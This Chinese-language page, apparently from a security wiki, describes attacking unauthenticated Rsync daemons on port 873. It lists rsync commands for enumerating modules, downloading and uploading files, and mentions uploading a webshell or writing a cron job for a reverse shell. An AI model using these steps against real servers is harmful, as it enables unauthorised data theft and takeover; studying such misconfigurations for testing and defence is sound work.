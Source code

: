 # Rsync 873端口

## 关于

<a-checkbox checked>Rsync为Linux下实现远程同步功能的软件，能同步更新两处计算机的文件及目录。</a-checkbox></br>

<a-checkbox checked>在同步文件时，可以保持源文件的权限、时间、软硬链接等附加信息。常被用于在内网进行源代码的分发及同步更新，因此使用人群多为开发人员；而开发人员安全意识薄弱、安全技能欠缺往往是导致rsync出现相关漏洞的根源。</a-checkbox></br>

<a-checkbox checked>rsync默认配置文件为/etc/rsyncd.conf，常驻模式启动命令rsync –daemon，启动成功后默认监听于TCP端口873，可通过rsync-daemon及ssh两种方式进行认证</a-checkbox></br>

## 攻击方法

与Rsync相关的几条命令

```bash
rsync ip::                        # 遍历可以同步的目录
rsync ip::backup                  # 遍历backup目录下可以同步的文件
rsync -avz ip::文件路径 本地路径     # 下载目录下文件
rsync -avz 本地文件路径 ip::目标路径  # 上传文件
```

## 连接目标

![img](/assets/PeiQi-Wiki/img/1629296857028-f953fc8d-8b00-4ec7-93ac-89d22938faba.png)

## 文件下载

![img](/assets/PeiQi-Wiki/img/1629296903271-be04441e-f7be-4bb8-b1e6-c6e2fb5556f9.png)

## 文件上传

<a-alert type="success" message="在权限高，且已知Web路径的情况下，可上传Webshell文件获取权限" description="" showIcon>
</a-alert>
<br/>

![img](/assets/PeiQi-Wiki/img/1629297071728-8c831f5b-1de2-4a94-8809-964689e8b419.png)



在权限高，也可以写入定时文件反弹 Shell